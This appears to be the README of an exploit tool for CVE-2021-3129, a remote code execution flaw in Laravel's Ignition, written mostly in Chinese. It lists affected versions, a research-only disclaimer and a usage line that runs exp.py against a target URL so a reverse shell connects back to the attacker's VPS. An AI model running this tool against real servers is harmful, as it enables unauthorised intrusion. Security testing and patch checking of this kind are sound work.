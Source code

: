 # CVE-2021-3129

影响范围  Laravel <= 8.4.2. Ignition <2.5.2
仅供测试与研究使用

# Environment

注意必须放在[phpggc](https://github.com/ambionics/phpggc)的目录下运行,且要有php-cli环境

# Usage
`python3 exp.py url vps_ip vps_port` 直接在vps上接受shell即可

![Snipaste_2021-04-10_09-40-45](./Snipaste_2021-04-10_09-40-45.jpg)

![Snipaste_2021-04-10_09-43-48](./Snipaste_2021-04-10_09-43-48.jpg)

# Vulnerability analysis

https://ccdragon.cc/?p=2829

# Advantage

- 使用poc进行探测是否修复
- 优化了一小部分编码方式
